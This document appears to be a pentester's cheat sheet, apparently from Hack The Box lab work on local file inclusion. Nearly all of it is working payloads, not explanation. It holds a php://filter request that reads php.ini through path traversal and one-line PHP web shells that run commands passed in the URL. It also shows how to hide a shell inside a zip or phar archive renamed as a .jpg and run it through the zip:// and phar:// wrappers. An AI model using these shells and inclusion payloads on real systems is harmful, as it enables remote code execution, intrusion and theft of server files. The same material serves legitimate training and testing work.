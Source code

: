 # Useful Links

# Useful Commands

HTTP Server
```bash
sudo python3 -m http.server <LISTENING_PORT>
```

FTP Server
```bash
sudo python3 -m pyftpdlib -p 21
```
SMB Server
```bash
impacket-smbserver -smb2support share $(pwd)
```
Checking PHP Configurations
```bash
curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include
```

Base64 PHP Shell
```bash
echo '<?php system($_GET["cmd"]); ?>' | base64
```

# Useful Payloads
```php
<?php file_get_contents('/etc/passwd'); ?>
<?php system('cat /flag.txt'); ?>
<?php system($_REQUEST['cmd']); ?>
```
```
[/htb]$ echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```
```
(http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id)
```
### Phar Upload
Finally, we can use the phar:// wrapper to achieve a similar result. To do so, we will first write the following PHP script into a shell.php file:
```
Code: php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```
```
[/htb]$ php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```
```
http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id
```
